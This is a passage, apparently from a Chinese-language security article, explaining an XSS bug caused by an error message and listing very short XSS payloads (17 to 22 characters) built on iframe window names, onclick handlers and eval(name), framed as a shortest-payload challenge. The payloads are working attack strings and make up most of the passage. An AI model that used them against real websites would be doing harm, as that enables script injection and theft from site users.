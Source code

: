 找出了XSS的原因是由错误消息引起的XSS

然后通过攻击者自己构造的页面构造XSS，并成功实现。

```
<iframe src="target" name="javascript:alert(1)">

```

（或者使用JavaScript的window.open）

最终：作者通过21个字符实现XSS（关于实现的方法请见上面的一些比较猥琐的利用元素标签）

代码为：

```
><i/onclick=URL=name>

```

当然22个字符也有很多方法(//后面为我们构造的代码开始) 20 Letters

```
<input type=hidden value=//><i/onclick=URL=name>

```

22 Letters

```
<input type=hidden value="//"><i/onclick=URL=name>">

```

17 Letters

```
<input type=text value= //onclick=URL=name>

```

![2013082023451443889.jpg](http://drops.javaweb.org/uploads/images/e9596058be555befd4c2de655d43d9921ddec0ff.jpg)

![2013082023454387143.jpg](http://drops.javaweb.org/uploads/images/a842ec1f45f4d6c43eeb229df9b9834950b4ac12.jpg)

0x04 挑战最”短”
-----------

* * *

这个活动是国外一个网站发布的，名为XSS challenge，大家有兴趣可以讨论一下 19 Letters

```
<x/x=&{eval(name)};

```

22 Letters

```
<svg/onload=eval(name)

```
